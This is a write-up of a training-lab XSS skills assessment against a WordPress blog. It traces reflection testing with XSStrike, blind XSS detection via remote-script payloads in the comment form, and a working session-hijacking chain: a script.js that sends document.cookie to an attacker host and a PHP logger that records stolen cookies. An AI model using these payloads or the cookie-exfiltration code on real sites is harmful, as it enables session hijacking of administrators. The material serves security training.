










## Scenario

> We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).
> 
> Apply the skills you learned in this module to achieve the following:
> 
> - Identify a user-input field that is vulnerable to an XSS vulnerability
> - Find a working XSS payload that executes JavaScript code on the target's browser
> - Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag

Access via: `http://10.129.219.2/assessment/`

## Initial Recon

Landed on the Security Blog's homepage, a WordPress site with a short welcome message and a note that comments require admin approval before they're posted.





Opened the one post, "Welcome to Security Blog," which carried a comment form at the bottom with Comment, Name, Email, and Website fields.





## Ruling Out the Comment Form via Reflection Testing

Submitted test values into all fields and clicked Post Comment. This redirected back to the same page, with the Website field value auto-prefixed with `http://`.

Tried an invalid email format (`test`) first, which produced a dedicated error page:



Corrected the email to `test@test.com` and resubmitted, this time with the Network tab open, which confirmed the form submits via POST to `wp-comments-post.php`:



Took the full set of POST parameters from that request and ran XSStrike against the endpoint directly:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ xsstrike -u 'http://10.129.219.2/assessment/wp-comments-post.php' --data 'comment=test&author=test&email=test%40test.com&url=http%3A%2F%2Ftest&wp-comment-cookies-consent=yes&submit=Post+Comment&comment_post_ID=8&comment_parent=0'

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: comment 
[-] No reflection found 
[!] Testing parameter: author 
[-] No reflection found 
[!] Testing parameter: email 
[-] No reflection found 
[!] Testing parameter: url 
[-] No reflection found 
[!] Testing parameter: wp-comment-cookies-consent 
[-] No reflection found 
[!] Testing parameter: submit 
[-] No reflection found 
[!] Testing parameter: comment_post_ID 
[-] No reflection found 
[!] Testing parameter: comment_parent 
[-] No reflection found 
```

**Breakdown:**

- `xsstrike` runs the tool via its symlink
- `-u 'http://10.129.219.2/assessment/wp-comments-post.php'` sets the vulnerable endpoint the comment form actually POSTs to
- `--data '...'` passes every parameter the form submits as POST data, taken directly from the captured request, so the tool tests each one for reflection

This came back clean across every field, with no reflection found anywhere. Given the "comments must be approved by an admin" notice, this was expected rather than a sign the fields were safe — the comment is never rendered back in the direct HTTP response at all, since it only ever gets displayed inside the Admin's moderation panel. A reflection-based tool structurally can't detect that, so this result was a dead end for confirming or ruling out the comment form — it only ruled out _this particular detection method_ for it, not the form itself.

## Testing the Search Field (Dead End)

Tried the site's search box next, not expecting much, but XSStrike did find a reflection there:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ xsstrike -u 'http://10.129.219.2/assessment/?s=test'

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] Potentially vulnerable objects found 
------------------------------------------------------------
2   ( Element.prototype.matches && Element.prototype.closest && window.NodeList && NodeList.prototype.forEach ) || document.write( '<script src="http://10.129.219.2/assessment/wp-content/themes/twentytwentyone/assets/js/polyfills.js?ver=1.3"></scr' + 'ipt>' );
2   	/(trident|msie)/i.test(navigator.userAgent)&&document.getElementById&&window.addEventListener&&window.addEventListener("hashchange",(function(){var t,e=location.hash.substring(1);/^[A-z0-9_-]+$/.test(e)&&(t=document.getElementById(e))&&(/^(?:a|select|input|button|textarea)$/i.test(t.tagName)||(t.tabIndex=-1),t.focus())}),!1);
------------------------------------------------------------
[+] WAF Status: Offline 
[!] Testing parameter: s 
[!] Reflections found: 6 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 4608 
------------------------------------------------------------
[+] Payload: <hTmL%0donPOintEREnTer%0a=%0aconfirm()// 
[!] Efficiency: 92 
[!] Confidence: 10 
—SNIP—
[+] Payload: <D3V/+/onPoInTErENter%0a=%0a[8].find(confirm)%0dx//v3dm0s 
[!] Efficiency: 94 
[!] Confidence: 10 
^C] Progress: 24/4608
```

**Breakdown:**

- `-u 'http://10.129.219.2/assessment/?s=test'` targets the WordPress search endpoint, with the `s` parameter holding the search term

The `s` parameter reflected, and XSStrike generated multiple payloads scored at Confidence 10 — but Confidence here measures how well a payload's structure fits the reflection context, not whether it actually executes. Visiting the search results page directly with one of the generated payloads confirmed it didn't:



The payload rendered as inert literal text in the page heading rather than executing — WordPress's search results template HTML-encodes the search term before output, a standard output-encoding defence against XSS. This confirmed the search field was not exploitable, closing off this path.

## Blind XSS Detection on the Comment Form

Given the admin-approval workflow and the hint ("You can't see me, but I can see you!"), pivoted to the Blind XSS Detection technique: submitting a remote-script payload into each comment field individually, with a listener running, and watching for a hit rather than any visible page change.

### Setting Up the Listener

Reused the existing `/tmp/tmpserver` setup:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80

[sudo] password for —REDACTED—: 
[Thu Oct 29 12:45:58 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
```

Confirmed it was reachable with a self-test:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ curl http://—REDACTED—/selftest
```

```shell
[Thu Oct 29 12:48:19 2026] —REDACTED—:39510 Accepted
[Thu Oct 29 12:48:19 2026] —REDACTED—:39510 [200]: GET /selftest
[Thu Oct 29 12:48:19 2026] —REDACTED—:39510 Closing
```

### Testing Each Field

Started with the Comment field:

```HTML
<script src=http://—REDACTED—/PARAMETERS></script>
```



No request arrived on the listener after submission.

Tried the Name (author) field next:

```HTML
<script src=http://—REDACTED—/author></script>
```

This produced an error, indicating the field is validated server-side and the payload was stripped outright:



The Email field was already known to require a valid format from the earlier reflection testing, so it was skipped as a candidate.

Tried the Website (`url`) field last:

```
<script src=http://—REDACTED—/url></script>
```

This time, the listener logged a hit:

```shell
[Thu Oct 29 12:51:38 2026] 10.129.219.2:58838 Accepted
[Thu Oct 29 12:51:38 2026] 10.129.219.2:58838 [200]: GET /url
[Thu Oct 29 12:51:38 2026] 10.129.219.2:58838 Closing
```

This confirmed the Website (`url`) field as the vulnerable one — the admin's automated review process had visited the pending comment and executed the injected script.

## Building and Sending the Session Hijacking Payload

Reused the cookie-stealing script and parsing script already prepared from the Session Hijacking exercise:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat script.js

new Image().src='http://—REDACTED—/index.php?c='+document.cookie
```

**Breakdown:**

- `index.php` checks for a submitted `c` parameter, splits it on `;` in case multiple cookies arrive together, URL-decodes each one, and appends a line to `cookies.txt` recording the victim's IP and the decoded cookie
- `script.js` creates an invisible image element whose `src` points at `index.php`, with the page's own `document.cookie` string appended as the `c` parameter — loading the image as a side effect sends the cookie data to the listener

Submitted the final payload into the confirmed-vulnerable Website field:

```
<script src=http://—REDACTED—/script.js></script>
```



The listener logged the full chain once the admin's review process triggered the script:

```shell
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58934 Accepted
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58934 [200]: GET /script.js
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58934 Closing
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58936 Accepted
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58936 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1793271361;%20flag=—REDACTED—
[Thu Oct 29 12:56:33 2026] 10.129.219.2:58936 Closing
```

The admin's cookie string included a `flag` cookie directly, with the flag value already visible in the raw request. The parsed log confirmed the same result:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat cookies.txt 

Victim IP: 10.129.219.2 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.219.2 | Cookie:  wp-settings-time-2=1793271361
Victim IP: 10.129.219.2 | Cookie:  flag=—REDACTED—
```

**Flag:** `—REDACTED—`